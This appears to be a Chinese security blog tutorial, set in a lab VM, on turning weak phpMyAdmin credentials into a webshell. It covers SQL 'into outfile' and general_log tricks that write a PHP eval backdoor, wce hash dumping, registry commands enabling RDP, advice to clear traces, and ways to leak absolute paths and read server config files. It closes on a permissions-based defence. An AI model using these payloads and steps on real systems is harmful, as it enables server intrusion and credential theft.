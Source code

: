 # phpmyadmin getshell姿势

phpmyadmin常被用来管理mysql数据库。在ctf比赛和实战中都可能会遇到phpmyadmin弱口令或者空密码的情况，这个时候就需要从phpmyadmin来getshell了，这里总结一下getshell的姿势。

## 0x00 前言

此次是在虚拟机中用wampserver搭了一个实验环境，然后在本机上执行操作。

- 靶机：Windows7 x64 IP 192.168.129.129
- 攻击机： Windows10 x64
- PHP版本：5.6
- Mysql版本：5.7
- Apache版本：2.4
  [![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542037451883.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542037451883.png?raw=true)
  mysql密码为弱密码root，已爆破得到密码。

## 0x01 常用方法

最常见的应该就是`select into outfile`写入shell了，需要知道网站的绝对路径，而且比较容易失败。
`select @@basedir`可以看到mysql所在的绝对路径，此外还有一些爆路径的方法会在下面总结到。
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542037378652.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542037378652.png?raw=true)
爆出网站绝对路径后你可以开始写入shell。

```
select load_file('C:/wamp64/www/ma.php')
select '<?php eval($_POST[cmd]); ?>' into outfile 'C:/wamp64/www/ma.php';
```

当你尝试执行`select into outfile`时会爆出如图的错误：
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542037848812.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542037848812.png?raw=true)
执行以下命令：
`SHOW VARIABLES LIKE "secure_file_priv";`
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1541693041317.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1541693041317.png?raw=true)
如果值为文件夹目录，则只允许修改目录下的文件，如果值为`NULL`则为禁止。
**并且这个值是只读变量，只能通过配置文件修改。**

## 0x02 利用日志写shell

mysql5.0版本以上会创建日志文件，可以通过修改日志的全局变量getshell。

### 检测全局变量(general_log、general_log file)

1. general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。

2. general log file 指的是日志的保存路径。

   ```
   SHOW VARIABLES LIKE 'general%'
   ```

   ![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542038258633.png?raw=true)

由图可知`general_log`默认关闭，以及日志的存储路径 。

开启general_log 的作用：开启它可以记录用户输入的每条命令，会把其保存在`c:\wamp64\bin\mysql\mysql5.7.14\data\`的一个.log文件中，其实就是我们常说的日志文件
利用思路：开启`general_log`之后把`general_log_file`的值修改为该网站默认路径下的某一个自定义的php文件中，然后通过log日志进行写入一句话木马，然后再进一步利用。

```
set global general_log = "ON";
set global general_log_file='C:/wamp64/www/ma.php';
```

[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542038724504.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542038724504.png?raw=true)
执行后可以看到生成的伪日志文件ma.php
此时在利用日志的记录插入一句话
`select '';`
打开日志可以看到记录
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542083022382.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542083022382.png?raw=true)
然后尝试用菜刀连接即可getshell
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542040654856.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542040654856.png?raw=true)

## 0x03 获取管理员密码

既然都做到这里了就顺便简单复习一下Windows，继续做下去。
在服务器上如果是管理员启动的mysql服务那么getshell直接就是管理员权限，如果是其他用户则需要提权。
wce，pwdump，mimikatz等工具都能抓取密码，我这里选择上传wce进行密码抓取。

### wce抓取

尝试直接抓明文，没有结果，那只能抓hash值了。
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542077881513.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542077881513.png?raw=true)
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542079376643.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542079376643.png?raw=true)
拿到hash值后就可以用hashcat或者直接跑彩虹表来获取密码。在线也有[ophcrack](https://www.objectif-securite.ch/en/ophcrack.php)可以破解。
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542088152490.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542088152490.png?raw=true)

### 3389连接

查看一下端口，发现3389没开
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542079568660.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542079568660.png?raw=true)
开启3389

```
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
```

[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542094164863.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542094164863.png?raw=true)
然后连接，输入刚刚抓到的账号密码即可。
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/TIM%E6%88%AA%E5%9B%BE20181113192414.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/TIM截图20181113192414.png?raw=true)

### 小结

其实这样一套操作下来动静是很大的，要注意清除痕迹，另外在Windows7这类非服务器的系统上远程登录的话会挤掉当前用户，用户掉线马上就知道出事了，当然也可以使用工具让其支持多用户登录，具体就不详细说明了。

## 0x04 php爆绝对路径方法

插入一句话木马时是需要知道网站绝对路径的，这里总结一下爆路径的方法。

### 单引号爆路径

直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
`www.xxx.com/news.php?id=1′`

### 错误参数值爆路径

将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
`www.xxx.com/researcharchive.php?id=-1`

### Google爆路径

结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

### 测试文件爆路径

很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

### phpmyadmin爆路径

一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

### 配置文件找路径

如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

### nginx文件类型错误解析爆路径

说明：
要求Web服务器是nginx，且存在文件类型解析漏洞。有时在图片地址后加/x.php，该图片不但会被当作php文件执行，有可能爆出物理路径
`www.xxx.com/xx.jpg/x.php`

## 0x05 思考

此次是在Windows系统下的实验，如果是Linux是否同样可以利用日志写shell？
于是找了个linux服务器测试
[![img](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell%E5%A7%BF%E5%8A%BF/1542109780138.png?raw=true)](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/10/11/phpmyadmin-getshell姿势/1542109780138.png?raw=true)
可以发现，我们没有权限在网站目录下创建日志文件。因为此台服务器上MYSQL并没有被赋予在站点根目录下创建文件的权限。所以也无法写shell并解析。

因此，只要做好权限把控，就可以避免此类安全问题
